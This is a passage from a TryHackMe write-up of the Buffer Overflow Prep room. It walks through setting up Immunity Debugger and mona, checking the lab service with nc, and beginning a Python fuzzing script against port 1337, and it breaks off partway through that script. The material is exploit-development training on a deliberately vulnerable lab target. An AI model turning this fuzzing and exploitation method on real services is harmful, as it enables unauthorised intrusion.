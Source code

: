 ```yaml
---
title: Buffer Overflow Prep Writeup || Tryhackme
date: 2025-1-28 00:00:00 +0800
categories: [Tryhackme, Offensive Pentesting Path]
tags: [tryhackme, writeup, walkthrough, buffer, overflow]     # TAG names should always be lowercase
description: This is a Writeup for Buffer Overflow Prep Room Which is a part of the offensive pentesting path on Tryhackme
---
```


In this writeup we will solve the "OVERFLOW10" part in this room

### Preparing The Environment

Start with opening the machine then RDP connect to it you will find the immunity debugger on the desktop right click on it and start as administrator.

Now open the **oscp.exe** which is on the desktop then click the red button to run it, and now the target is running on port 1337.

Connect to it via **nc** to make sure that it is accepting inputs and everything is working properly.

```
nc 10.10.112.53 1337
```

Then type **OVERFLOW10 test** and then you must get **OVERFLOW10 COMPLETE** now we know that everything is working properly terminate the connection and let's start.


### Mona Configuration

Mona is a script that can be used to automate and speed up specific searches while developing exploits it works on immunity debugger and it is preinstalled on our system we just need to Setting the working folder with this command (run in the command input box at the bottom of the Immunity Debugger window)
```
!mona config -set workingfolder c:\mona\%p
```
This ensures that all Mona-generated outputs (like logs, patterns, and offsets) are saved in a dedicated directory.

### Fuzzing

Create a file on your Kali with the following contents:

```
#!/usr/bin/env python3

import socket, time, sys

ip = "10.10.112.53"

port = 1337
timeout = 5
prefix = "OVERFLOW10 "

string = prefix + "A" * 100

while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
```